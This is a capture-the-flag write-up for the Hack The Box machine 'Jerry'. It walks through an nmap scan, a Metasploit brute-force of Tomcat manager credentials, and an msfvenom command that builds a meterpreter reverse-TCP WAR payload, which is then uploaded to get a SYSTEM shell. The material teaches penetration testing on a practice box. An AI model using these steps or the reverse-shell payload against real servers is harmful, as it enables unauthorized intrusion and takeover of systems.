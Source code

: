 ```yaml
---
title: HTB - Jerry writeup
date: 2023-04-02
categories: [ctf, htb, writeup]
tags: [ctf, htb, writeup]
author: cha0s
---
```

# Machine info
---
Name: Jerry \
OS: Windows \
Dificulty: Easy \
[link](https://app.hackthebox.com/machines/144)

---

# Initial recon
---
As always i've started with nmap, and for my surprise, only a single port open

```bash
cha0s@vm:~/ctf/htb/jerry$ nmap -A -p- -T4 --min-rate=500 -Pn 10.10.10.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 11:19 -03
Nmap scan report for 10.10.10.95
Host is up (0.13s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 182.44 seconds
```

An apache tomcat instance, just like a "default installation"

![apache tomcat](/assets/img/jerry/Pasted%20image%2020240402125101.png)
_not the actual box screenshot cause i forgot to take it💀_
# Tomcat enumeration
---

Without further thinking, i fired metasploit and runned the `auxiliary/scanner/http/tomcat_mgr_login` module

![[/assets/img/jerry/Pasted image 20240402113416.png]]

After a few minutes of bruteforce we found:
	`tomcat:s3cret`
Now we have a login for tomcat's manager gui. 
# Exploitation
--- 
Now, we need to get a shell. Since we already inside tomcat webapp as an admin, we can abuse the upload feature to upload an malicious .war file that will allow us to get a reverse shell.

First we create a .war payload using msfvenom. Apart from looking at the machine info and knowing its a windows, we could simply go at the "show status", page and figure out it's a windows server 2012 machine.

To create the payload we use:
`msfvenom -p windows/meterpreter/reverse_tcp lhost=<your Tun0> lport=4444 -f war -o xp.war`
![[Pasted image 20240402114516.png]]

Note that i've unziped the .war, that's because we won't get a shell by simply uploading, we also need to run the malicious jsp

Then, we can upload it on tomcat manager gui

![upload](/assets/img/jerry/Pasted%20image%2020240402114540.png)

![completed](/assets/img/jerry/Pasted%20image%2020240402114551.png)
_file uploaded successfully!_

Then visit the page with the file we early extracted

![shell](/assets/img/jerry/Pasted%20image%2020240402114612.png)

And, we get a shell!!!
 
![1](/assets/img/jerry/Pasted%20image%2020240402114657.png)
![2](/assets/img/jerry/Pasted%20image%2020240402114720.png)
# Post exploitation
---

After that we start to gather some information about the machine and for my surprise...

![1337](/assets/img/jerry/Pasted%20image%2020240402114814.png)

We are already the highest windows privileged account.

So i head to the administrator desktop (default location for flags)

![pwned](/assets/img/jerry/Pasted%20image%2020240402114857.png)

And enjoy my 2 flags for the price of one 😋

---

Hope you enjoyed the writeup.
Never stop hacking! 👨‍💻
